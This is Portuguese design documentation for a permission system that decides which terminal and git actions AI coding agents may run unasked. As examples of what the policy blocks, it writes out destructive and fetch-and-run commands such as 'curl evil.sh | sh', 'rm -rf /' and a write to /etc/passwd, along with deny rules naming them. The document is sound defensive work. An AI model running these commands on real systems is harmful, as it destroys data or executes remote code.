

# Permissões

Toda ação com efeito externo nasce como `proposed_action` e passa por aqui
antes de executar. Esta página é o formato e a semântica exata — as regras em
si estão em [Regras de negócio](../business-rules.md#rn-004).

## O arquivo

`permissions.json` fica na **raiz do workspace do projeto** — é um arquivo de
verdade no disco, versionável, não uma coluna no banco.

```json
{
  "allow": ["Terminal(pnpm test:*)", "Terminal(git status)"],
  "deny":  ["Terminal(curl:*)"],
  "ask":   ["GitPush()"]
}
```

Três listas, três significados:

| lista | significa |
|---|---|
| `allow` | `auto_approve` — a ação executa sem perguntar |
| `deny` | `deny` — recusada, e nada reverte isso |
| `ask` | `require_approval` — vai para a fila de aprovação |

Nenhuma lista bate? A ação fica `pending` por default. **A ausência de regra
nunca vira permissão.**

### Com qual credencial a ação auto-aprovada executa

`auto_approve` significa que **ninguém decidiu** — `proposed_actions.decided_by`
fica `NULL`. Isso importa para quem executa: uma ação de git contra provider
remoto precisa de token, e "o token de quem decidiu" não existe neste caminho.

A resposta é o **owner do workspace** ([RN-082](../business-rules.md#rn-082)),
o mesmo da chave de LLM ([RN-058](../business-rules.md#rn-058)) — quem banca a
conta banca os agentes, e isso não muda conforme quem clica.

Vale saber porque a alternativa falha em silêncio: enquanto a api resolvia por
`decided_by`, **toda PR auto-aprovada em repositório remoto morria** com
`Requires authentication`, e só quando um humano clicava em cada uma é que o
caminho funcionava — exatamente a escada que a autonomia existe para evitar.

## O formato do padrão

```
Rótulo(conteúdo)
```

O rótulo é o tipo de ação em PascalCase. O conteúdo só é usado para
`Terminal`; nos outros tipos ele precisa estar **vazio** — `GitPush()` casa
qualquer push, e `GitPush(algo)` não casa nada.

| tipo de ação | rótulo | papel mínimo |
|---|---|---|
| `terminal` | `Terminal` | developer |
| `git_commit` | `GitCommit` | developer |
| `write_file` | `WriteFile` | developer |
| `git_push` | `GitPush` | maintainer |
| `pr_open` | `PrOpen` | maintainer |
| `git_repo_create` | `GitRepoCreate` | maintainer |
| `git_branch_create` | `GitBranchCreate` | maintainer |
| `git_branch_protect` | `GitBranchProtect` | maintainer |
| `open_adr_pr` | `OpenAdrPr` | maintainer |
| `open_infra_pr` | `OpenInfraPr` | maintainer |
| `git_merge` | `GitMerge` | maintainer |
| `instruction_patch` | `InstructionPatch` | maintainer |
| `parallelize` | `Parallelize` | maintainer |
| `raise_max_parallel` | `RaiseMaxParallel` | maintainer |
| `propose_execution_plan` | `ProposeExecutionPlan` | maintainer |
| `assess_implementability` | `AssessImplementability` | maintainer |
| `spend` | `Spend` | **owner** |

O papel mínimo é verificado **antes** do arquivo. Sem ele, `deny` — o
`permissions.json` não consegue conceder o que o IAM nega

`parallelize` (FASE 14d) é a única cujo efeito não é tocar em código ou
repositório: ela pede mais AGENTES. Está em `maintainer` pelo mesmo motivo de
`spend` — quem autoriza custo é quem responde pelo projeto. Ela só existe acima
do teto do lead; dentro dele não há ação, porque não há o que decidir
([RN-083](../business-rules.md#rn-083))
([RN-005](../business-rules.md#rn-005)).

`propose_execution_plan` (ADR 0086, [RN-284](../business-rules.md#rn-284)) é o
plano do Dev Lead — quantos agentes por módulo e por quê, antes de qualquer um
subir. Mesmo calibre de `parallelize`: decisão de QUANTO o produto vai gastar
com paralelismo, só que na largada em vez de numa ultrapassagem de teto. Ao
contrário de `parallelize`/`raise_max_parallel`, ela NÃO está no bloco de
tetos absolutos — pode ser configurada para `auto_approve`, como
`open_adr_pr`/`open_infra_pr` — e enquanto ela está `pending`, o turno do Dev
Lead fica SUSPENSO esperando a decisão, não só a conversa parada.

`assess_implementability` (ADR 0090, [RN-340](../business-rules.md#rn-340)) é
o parecer de implementabilidade de uma story (gate `implementavel`,
`docs/gates.yml`) — MESMO calibre e MESMO raciocínio de
`propose_execution_plan`: decisão inicial da sessão, não ultrapassagem de
teto, e por isso também fora do bloco de tetos absolutos. Suspende o turno
do Dev Lead do mesmo jeito enquanto `pending`.

## Como um padrão casa com um comando

Não por substring. O comando é tokenizado com regras de shell e o padrão casa
por **prefixo de tokens**:

| padrão | comando | casa? |
|---|---|---|
| `Terminal(pnpm test)` | `pnpm test` | ✅ |
| `Terminal(pnpm test)` | `pnpm test --watch` | ✅ (prefixo) |
| `Terminal(pnpm test)` | `pnpm build` | ❌ |
| `Terminal(pnpm test:*)` | `pnpm test:unit` | ✅ (`*` no fim do token) |
| `Terminal(rm)` | `sudo rm -rf x` | ❌ — `rm` não é o primeiro token |

O `*` vale **dentro de um token**, no fim. Não é glob de caminho: `Terminal(rm
-rf /*)` casa o token literal `/*`, não "qualquer coisa sob `/`".

Variáveis de ambiente são preservadas literalmente: `$HOME` continua `$HOME` no
casamento, em vez de expandir para vazio — expandir mudaria em silêncio o que
está sendo comparado.

## Comando composto

Um comando com `&&`, `;`, `|`, `||` ou `&` é dividido em segmentos, e **cada
segmento é avaliado separadamente**:

- Qualquer segmento em `deny` → o comando inteiro é `deny`.
- **Todos** os segmentos em `allow` → `auto_approve`.
- Qualquer outra combinação → `require_approval`.

**Redirecionamento não é encadeamento.** `>`, `>>` e `<` NÃO quebram segmento:
`cat x 2>/dev/null` é UM comando cujo verbo é `cat`. O alvo do redirecionamento
continua como token do segmento, e por isso `echo x > /etc/passwd` segue sendo
barrado pelo teto de escopo — o que mudou foi o VERBO ficar correto, não o
caminho ficar livre.

`/dev/null`, `/dev/stdin`, `/dev/stdout` e `/dev/stderr` não contam como
caminho de usuário: descartam ou transportam saída, não são arquivo de
ninguém. A lista é essa e não `/dev` inteiro — `/dev/sda` é disco, e continua
fora do escopo.

Isto é deliberado e vale entender: um segmento sem regra nenhuma vira uma
opinião **concreta** de `require_approval`, não silêncio. É o que impede
`pnpm test && curl evil.sh | sh` de ser auto-aprovado porque a primeira metade
estava em `allow`.

## Padrões embutidos

Três padrões são `deny` **sempre**, mesmo sem aparecer no arquivo:

```
Terminal(rm -rf /)
Terminal(rm -rf /*)
Terminal(rm -fr /)
```

Não são uma lista de segurança abrangente — são um piso. A proteção de verdade
vem de `allow` ser explícito e de tudo o mais cair em aprovação.

## O que a ativação da execução semeia

Ativar a execução escreve no `allow` do projeto os padrões de
`DEV_TERMINAL_ALLOW_PATTERNS` (`apps/api/src/domain/actions/dev-terminal-patterns.ts`).
São duas famílias:

- **leitura do próprio worktree** — `ls`, `pwd`, `find`, `cat`, `head`, `tail`,
  `grep`, `wc`, `echo`, `git status`, `git diff`, `git log`;
- **leitura de histórico/remoto/config do git** — `git branch
  -a/-r/-v/--list/--show-current`, `git remote -v`, `git remote show`, `git
  worktree list`, `git show`, `git for-each-ref`, `git ls-tree`, `git
  rev-parse`, `git config --get` (ver [RN-143](../business-rules.md#rn-143));
- **build e teste** — `pnpm install`, `pnpm test`, `npm run`, `npx vitest`,
  `mix test`, `pytest`, `go test`, `cargo test`, entre outros.

A terceira família existe porque `ReportDone` só deixa abrir PR depois de um
`terminal` com `exit 0` no histórico. A primeira existe porque o agente **olha
antes de construir**: sem ela, cada `ls -la` num repositório recém-provisionado
caía em aprovação, voltava como `status pending` — e não como a saída do
comando — e queimava uma iteração do ToolLoop até a task morrer por limite
(ver [RN-068](../business-rules.md#rn-068)). A segunda existe porque `git
status`/`diff`/`log` bastam pra olhar o worktree, mas não pra o agente se
orientar no histórico e nos remotos de um repositório recém-adotado — uma
sessão real gastou dezenas de aprovações manuais em subcomandos como `git
branch -a` ou `git worktree list` que caíam fora do `allow` e reprovavam para
aprovação manual qualquer comando composto em que aparecessem.

Isto NÃO afrouxa nada do que está acima. Continua valendo que `deny` vence
`allow`, que os padrões embutidos seguem ativos, que o casamento é por prefixo
de **token** (`ls` liberado não libera `lsof`) e que comando composto exige que
CADA segmento case — então `ls && rm -rf /` não passa por causa do `ls`.

A segunda família tem um cuidado a mais, porque o casamento por prefixo
permite QUALQUER coisa depois do prefixo que bateu: um padrão pelado
`Terminal(git branch)` bateria tanto em `git branch -D nome` (apaga) quanto em
`git branch nome-nova` (cria) quanto na listagem sozinha, porque ele não
enxerga o que vem depois. Por isso `branch`, `remote`, `worktree` e `config` —
os quatro que têm irmão MUTANTE — só entraram ANCORADOS pela flag que torna a
leitura inequívoca (`-a`/`-v`/`show`/`list`/`--get`), nunca pelo verbo pelado;
`git branch -D/-d/-m/-M`, `git remote add/remove/set-url`, `git worktree
add/remove/prune` e `git config <chave> <valor>` (sem `--get`) continuam
exigindo aprovação. `show`, `log`, `for-each-ref`, `ls-tree` e `rev-parse`
não precisaram de âncora: nenhuma continuação deles muta o repositório.

Auto-aprovar `terminal` por `agent_autonomy` seria diferente e não é o que se
faz: liberaria QUALQUER comando dentro do container do engine, sem o arquivo no
meio.

## A ordem completa da decisão



**O nó `Z` mudou de lugar** ([RN-418](../business-rules.md#rn-418), revisa
[RN-106](../business-rules.md#rn-106)): até a introdução do runner local,
ele ficava logo após o IAM e retornava `deny` — agora é um TETO, no mesmo
bloco final dos outros três, aplicado depois de `agent_autonomy` e
`permissions.json` já terem opinado. Ver a seção
["A fronteira de efeito externo e comando privilegiado"](#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418)
abaixo para o porquê.

### "Auto mode": a curinga de `agent_autonomy` ([RN-153](../business-rules.md#rn-153))

O nó `agent_autonomy tem opinião?` do diagrama acima não sabe, e não precisa
saber, se a opinião veio de uma regra ESPECÍFICA (`actionType: "terminal"`)
ou da curinga `actionType: "*"` — "auto mode": autonomia pra QUALQUER tipo
de ação daquele agente, ligada com um clique em "Modo automático" no
`ApprovalCard`. A resolução acontece ANTES deste diagrama começar, num
repositório só: `DrizzleAgentAutonomyRepository.findMode` busca a regra
específica e a curinga na mesma consulta, e devolve a específica quando as
duas existem — gravar `terminal: deny` com `"*": auto_approve` ligado
continua negando `terminal` desse agente, liberando o resto.

É por isso que o diagrama não ganhou um nó novo, e é a prova de que os
tetos, logo abaixo, valem para "auto mode" sem exceção declarada em lugar
nenhum: eles reagem a `current.policy === 'auto_approve'`, nunca à origem
dela ([RN-154](../business-rules.md#rn-154)).

"Auto mode" exige `maintainer` — mesmo papel que já protegia
`PUT .../agent-autonomy` antes da curinga existir. Desligar reusa o toggle
manual/auto que o card do agente já tinha na Visão Geral/Executores: com a
curinga gravada, o toggle passa a editar ELA em vez do tipo representativo
de sempre, e "manual" nele é a mesma curinga regravada como
`require_approval`.

## A fronteira de efeito externo e comando privilegiado (RN-418) {#a-fronteira-de-efeito-externo-e-comando-privilegiado-rn-418}

**Revisão do [ADR 0065](../adr/0065-container-por-projeto-a-fronteira-deixa-de-ser-politica.md)
pelo [ADR 0102](../adr/0102-revisao-do-adr-0065-teto-absoluto-substitui-deny.md)**
— decisão GLOBAL e explícita do dono do produto, confirmada depois de um
aviso automático de segurança sobre a mudança (o histórico completo está no
ADR). O que segue descreve o comportamento ATUAL; a versão anterior
(`deny` incondicional, aplicado antes de qualquer estágio permissivo) foi
substituída, não afrouxada — ver por quê logo abaixo.

`git push`, `git remote add`/`set-url`, `git merge`, os CLIs de provider (`gh
pr create`, `gh pr merge`, `glab mr create`/`merge`, releases e workflow
dispatch), os comandos de deploy comuns (`kubectl apply`, `helm upgrade`,
`terraform apply`, `docker push`, `npm publish`, ...) e agora também `sudo`/
`doas` num comando `terminal` são um **TETO ABSOLUTO** — no mesmo bloco
final dos outros três tetos (ver ["Os tetos"](#os-tetos) abaixo), aplicado
depois que `agent_autonomy` e `permissions.json` já opinaram: se o veredito
até ali era `auto_approve`, vira `require_approval` incondicional. Nem o
curinga `"*"` de "modo automático" nem uma entrada `allow` no
`permissions.json` conseguem promover de volta.

**Por que `require_approval` agora é seguro, quando antes exigia `deny`.**
A razão histórica do `deny` era concreta: "sempre permitir" grava o padrão
em `allow`, e um clique bastaria para reabrir a porta pra sempre. Essa
fresta foi fechada NA FONTE, não contornada: `ApproveAlwaysActionUseCase`/
`patternForAction` (`apps/api/src/application/use-cases/actions/approve-always-action.use-case.ts`)
RECUSAM gravar padrão em `allow` para ação de terminal com efeito externo
git ou comando privilegiado — o usuário ainda aprova a instância específica
pelo fluxo normal, mas "sempre permitir" nunca grava o padrão para esses
dois casos. Sem essa recusa, o teto seria decorativo.

`sudo`/`doas` ganharam categoria própria em `external-effect.ts`
(`comandoPrivilegiadoNoComando`), casando por VERBO em qualquer segmento —
mesmo princípio de `efeitoExternoNoComando` para git, que continua casando
por **prefixo de tokens**, ignorando flags globais no meio (`git -C /tmp
push` casa `git push`). Cada segmento de um comando composto é verificado:
`pnpm test && git push origin main` é barrado pelo segundo segmento, do
mesmo jeito que o comando composto já exige que todo segmento case para
virar `auto_approve`.

O teto não tira poder do agente: para git, a mensagem de erro continua
apontando qual ação **tipada** usar — `git_push`, `git_merge` ou `pr_open`
— que nasce `proposed_action`, segue o pipeline normal e registra no event
log o que foi empurrado e para onde (é o caminho que o dev agent já usa
hoje, `agent_io.ex`). `sudo`/`doas` não têm ação tipada equivalente — a
mensagem só explica por que aquele comando pede decisão humana.

**Onde isto importa mais agora**: o [runner local](../adr/0103-runner-local-execucao-na-maquina-do-usuario.md)
executa comandos JÁ aprovados na máquina do próprio usuário, com os
privilégios dele — é exatamente o cenário em que um `sudo` legítimo (ou uma
tentativa de escapar via `sudo`) precisa de uma parada humana garantida por
construção, não por convenção de `permissions.json`.

## Escopo de caminho

Um comando de `terminal` é avaliado também por **onde ele toca**, não só pelo
verbo ([ADR 0055](../adr/0055-escopo-de-caminho-na-politica-de-terminal.md),
[RN-075](../business-rules.md#rn-075)). A pasta do projeto —
`<PROJECT_WORKSPACES_ROOT>/<workspace_dir_name>`, onde vivem o
`permissions.json` e todos os worktrees de agente — é o **escopo**.
`workspace_dir_name` ([ADR 0066](../adr/0066-nome-de-pasta-legivel-do-workspace.md),
[RN-109](../business-rules.md#rn-109)) é o nome de pasta congelado na
criação do projeto — legível (`<slug>-<8 chars do id>`) num projeto novo, o
UUID puro num projeto de antes dessa mudança.

**Projeto no modo `local` tem outro escopo, e a diferença importa aqui**
([ADR 0072](../adr/0072-projeto-local-ou-container.md),
[RN-169](../business-rules.md#rn-169)/[RN-170](../business-rules.md#rn-170)):
a raiz passa a ser o **caminho absoluto que o usuário digitou na criação**, não
`join(PROJECT_WORKSPACES_ROOT, workspace_dir_name)`.

Tudo o que esta seção descreve continua valendo — o escopo aperta e afrouxa
exatamente igual, e `deny` continua vencendo primeiro. O que muda é o que ele
CONTÉM. E a consequência está declarada sem atenuação no ADR 0072: a contenção
**estrutural** do `join` — "o resultado nunca sai da raiz gerenciada, aconteça o
que acontecer com a coluna" — deixa de existir para esses projetos. O que
substitui é a validação da criação (RN-170: absoluto, sem `..`, existente,
gravável, nunca raiz de sistema, nunca sobreposto ao checkout do Brabo), mais a
revalidação LÉXICA do mesmo predicado a cada derivação da raiz — para que uma
linha adulterada direto no banco não vire escopo de terminal em `/`.

A comparação de caminho é **léxica e sem regex sobre a entrada**: o corte de
barras finais é varredura O(n), não `.replace(/\/+$/, '')`. O padrão antigo foi
apontado pelo CodeQL como ReDoS polinomial (HIGH) — ele obriga o motor a tentar
cada posição inicial, e degrada em O(n²) com muitas barras. A entrada aqui vem
de comando de agente, então não é lugar de regex que retrocede.

O escopo faz duas coisas opostas, e é a combinação que importa:

**Aperta.** Um comando que toca caminho de fora nunca é auto-aprovado, por mais
que o verbo esteja em `allow`. Sem isto, `Terminal(cat)` liberado auto-executava
`cat /workspace/apps/engine/lib/engine/actions/git_executor.ex` — o código da
plataforma que executa o agente — e alcançava o worktree de outros projetos.

**Afrouxa.** Dentro do escopo, `cd` deixa de ser um verbo que precisa de
permissão: ele é a própria declaração de escopo. Sem isto, o dev agent, que
emite sempre `cd <caminho> && <verbo>`, esbarrava na regra do comando composto
— todo segmento precisa casar — e **todo** comando parava para aprovação, por
mais que o verbo estivesse liberado.

Três limites que valem entender:

- **Escopo permite, não isenta.** Estar na pasta do projeto não torna
  `curl … | sh` seguro: verbo fora do `allow` continua pedindo aprovação.
- **Fora do escopo é `require_approval`, não `deny`.** O agente pode ter razão
  legítima para olhar fora; quem decide continua sendo você.
- **A normalização é léxica, não `realpath`.** `<raiz>/../..` é resolvido e
  reprovado; um link simbólico dentro do projeto apontando para fora **não** é
  detectado. Escopo é política, não isolamento.

Quais tokens são verificados: os **absolutos** (começam com `/`) e os que
contêm `..`. Um relativo sem `..` resolve sob o `cwd`, que já foi verificado —
e tratar `-maxdepth`, `4` ou `*.ex` como caminho reprovaria comando legítimo
sem ganhar segurança.

Duas propriedades que caem daí:

**`deny` vence na hora.** Não importa em que estágio apareça, retorna
imediatamente. Não existe configuração que reverta um `deny`.

**Um estágio silencioso nunca rebaixa.** Se `agent_autonomy` disse
`auto_approve` e o `permissions.json` não tem regra para aquela ação, o
resultado continua `auto_approve` — o arquivo não "vota contra" por omissão.
Cada estágio só pode subir a permissividade do anterior.

## Os tetos

Aplicados **por último**, depois de todo o resto:

| teto | efeito | por quê |
|---|---|---|
| `git_merge` com destino em `dev`, `qa`, `rc` ou `main` | `auto_approve` → `require_approval` | merge em branch protegida é sempre decisão sua ([RN-006](../business-rules.md#rn-006)) |
| `instruction_patch` | `auto_approve` → `require_approval` | você precisa ver o diff antes que um agente mude o comportamento de outro ([RN-007](../business-rules.md#rn-007)) |
| `parallelize` e `raise_max_parallel` | `auto_approve` → `require_approval` | gastar com mais agentes é decisão sua; sem este teto o limite do lead seria decorativo, e subir o próprio teto seria o produto elevando o limite de gasto dele mesmo ([RN-086](../business-rules.md#rn-086)) |
| `terminal` com efeito externo git (push/PR/deploy) ou `sudo`/`doas` | `auto_approve` → `require_approval` | git com efeito externo e comando privilegiado nunca são auto-aprováveis, mesmo com "modo automático" ligado ([RN-418](../business-rules.md#rn-418), revisa [RN-106](../business-rules.md#rn-106)) — ver a seção dedicada acima |

Um teto rebaixa `auto_approve` para `require_approval`; ele **não** transforma
`deny` em outra coisa, porque `deny` já teria retornado antes.

:::note Por que `rc` ainda está na lista

O degrau `rc` saiu da política de branches
([ADR 0030](../adr/0030-politica-de-branches-mecanizada.md)) e o bootstrap
parou de criá-lo ([RN-029](../business-rules.md#rn-029)) — mas ele continua
aqui, em `domain/actions/protected-branches.ts`.

Esta lista decide o que a trava de merge **recusa**, e repositórios
bootstrapados por versões anteriores do Brabo ainda têm a branch. Tirá-la daqui
não removeria nada do repositório de ninguém: só tornaria um `git_merge` com
destino em `rc` auto-aprovável, numa branch que alguém pode estar usando como
produção.

Proteger uma branch que não existe não custa nada. Desproteger uma que existe
custa caro — e a assimetria é deliberada.

:::

A diferença entre um teto e um default: o default é o que acontece quando
ninguém configurou nada; o teto é o que acontece **independente** do que foi
configurado.

## O que acontece com o agente enquanto a decisão não vem

Uma ação `pending` não é só uma linha esperando clique: do outro lado há um
agente parado.

Quando a ferramenta que ele chamou fica pendente, o laço dele **suspende**
retendo task, worktree e o histórico da conversa, e ele entra em
`awaiting_approval`. Sua decisão emite `task.action_settled`, que o acorda: o
resultado real do comando ocupa o lugar onde estaria a resposta, e o laço retoma
do ponto em que parou.

**Recusar também responde.** O motivo entra no lugar do resultado, e o agente
aprende que aquele caminho está fechado em vez de esperar para sempre — negar
não o deixa travado.

Isso importa para quem opera: aprovar tarde não desperdiça o trabalho já feito,
e a fila de aprovações não é assíncrona por conveniência — ela é o que o agente
está literalmente esperando. Antes disso, o `pending` voltava como se fosse a
resposta do comando, e o agente gastava o teto de iterações tentando outra coisa
até a task morrer sem uma linha escrita
([RN-073](../business-rules.md#rn-073)).

**Com uma exceção: reinício do engine.** O laço suspenso vive em memória, então
um restart o leva junto. Nesse caso a task **não** fica esperando: ela volta
para a fila bloqueada, com o motivo e origem `infra` no event log, e uma decisão
tomada depois disso não tem mais onde ser aplicada — a ação decidida fica
registrada, mas o turno que a esperava não existe mais. Se você aprovou e nada
aconteceu, é esse o primeiro lugar para olhar.

A auto-aprovação não passa por aqui: ela executa na proposta e o resultado volta
no mesmo turno — que é justamente o valor de ter os padrões da seção anterior.

**O Dev Lead suspende do mesmo jeito, com uma diferença no reinício** (ADR
0086, [RN-284](../business-rules.md#rn-284)). Ele é conversacional, não tem
worktree nem task — o que suspende é o `handle_call` síncrono do turno, via
`agent.status: awaiting_approval`. Ao contrário do dev agent, ele NÃO tem
fila para onde voltar num reinício do engine: a decisão continua registrada e
visível em Aprovações, mas o Dev Lead não narra o desfecho sozinho — o
processo que estava esperando morreu, e o próximo restart sobe um Dev Lead
novo, sem inscrição para aquela ação. Lacuna aceita e declarada, não
disfarçada.

## O que fica escrito de cada decisão

Toda ação proposta e toda decisão sobre ela viram **evento de domínio** em
`session_events`, com o ator real ([RN-049](../business-rules.md#rn-049)):

| evento | ator | quando |
|---|---|---|
| `proposed_action.created` | o **agente** que propôs | sempre, antes de qualquer execução. `payload.status` diz como a ação nasceu: `pending`, `auto_approved` ou `denied` |
| `proposed_action.approved` | o **usuário** que clicou | só na aprovação manual (inclusive `approve_always`) |
| `proposed_action.denied` | o **usuário** que recusou | com `payload.reason` |
| `action.executed` / `action.failed` | `system` | desfecho da execução |

Daí sai a única forma confiável de separar as duas coisas que este documento
descreve:

- **decisão humana** = contar eventos `proposed_action.approved`;
- **decisão da política** = `proposed_action.created` com
  `status: auto_approved` e ator agente. Ela nunca produz um `.approved`, e por
  isso nunca é confundida com um clique.

Isso não era verdade até a Fase 12e. As três primeiras linhas iam **só para o
outbox**, que é transporte — drenado, marcado com `processed_at` e podado — e a
decisão sobrevivia apenas em `proposed_actions.decided_at`, uma coluna fora da
linha do tempo que a UI, o Psicólogo e a Anamnese leem. O resultado prático foi
que "quantas vezes o humano aprovou" não pôde ser respondido no dogfooding da
Fase 10, que era justamente a métrica principal daquele experimento.

O bootstrap de repositório é a exceção deliberada: as mutações que ele propõe
não emitem `proposed_action.created` no log, porque já são narradas por
`bootstrap.step_*` na mesma sessão — contá-las de novo inflaria a métrica de
aprovação com trabalho que ninguém aprovou.
